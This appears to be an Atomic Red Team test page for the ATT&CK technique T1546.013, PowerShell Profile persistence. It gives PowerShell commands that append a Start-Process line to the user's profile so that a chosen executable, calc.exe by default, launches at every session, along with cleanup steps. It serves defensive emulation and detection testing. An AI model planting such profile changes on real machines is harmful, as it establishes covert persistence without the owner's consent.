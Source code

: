 # T1546.013 - PowerShell Profile
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/013)
<blockquote>Adversaries may gain persistence and elevate privileges by executing malicious content triggered by PowerShell profiles. A PowerShell profile  (<code>profile.ps1</code>) is a script that runs when [PowerShell](https://attack.mitre.org/techniques/T1059/001) starts and can be used as a logon script to customize user environments.

[PowerShell](https://attack.mitre.org/techniques/T1059/001) supports several profiles depending on the user or host program. For example, there can be different profiles for [PowerShell](https://attack.mitre.org/techniques/T1059/001) host programs such as the PowerShell console, PowerShell ISE or Visual Studio Code. An administrator can also configure a profile that applies to all users and host programs on the local computer. (Citation: Microsoft About Profiles) 

Adversaries may modify these profiles to include arbitrary commands, functions, modules, and/or [PowerShell](https://attack.mitre.org/techniques/T1059/001) drives to gain persistence. Every time a user opens a [PowerShell](https://attack.mitre.org/techniques/T1059/001) session the modified script will be executed unless the <code>-NoProfile</code> flag is used when it is launched. (Citation: ESET Turla PowerShell May 2019) 

An adversary may also be able to escalate privileges if a script in a PowerShell profile is loaded and executed by an account with higher privileges, such as a domain administrator. (Citation: Wits End and Shady PowerShell Profiles)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Append malicious start-process cmdlet](#atomic-test-1---append-malicious-start-process-cmdlet)


<br/>

## Atomic Test #1 - Append malicious start-process cmdlet

auto_generated_guid: 090e5aa5-32b6-473b-a49b-21e843a56896

Appends a start process cmdlet to the current user's powershell profile pofile that points to a malicious executable. Upon execution, calc.exe will be launched.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| exe_path | Path the malicious executable | Path | calc.exe|
| ps_profile | Powershell profile to use | String | $profile|


#### Attack Commands: Run with `powershell`! 


```powershell
Add-Content #{ps_profile} -Value ""
Add-Content #{ps_profile} -Value "Start-Process #{exe_path}"
powershell -Command exit
```

#### Cleanup Commands:
```powershell
$oldprofile = cat $profile | Select-Object -skiplast 1
Set-Content $profile -Value $oldprofile
```



#### Dependencies:  Run with `powershell`!
##### Description: Ensure a powershell profile exists for the current user
##### Check Prereq Commands:
```powershell
if (Test-Path #{ps_profile}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Path #{ps_profile} -Type File -Force
```




<br/>
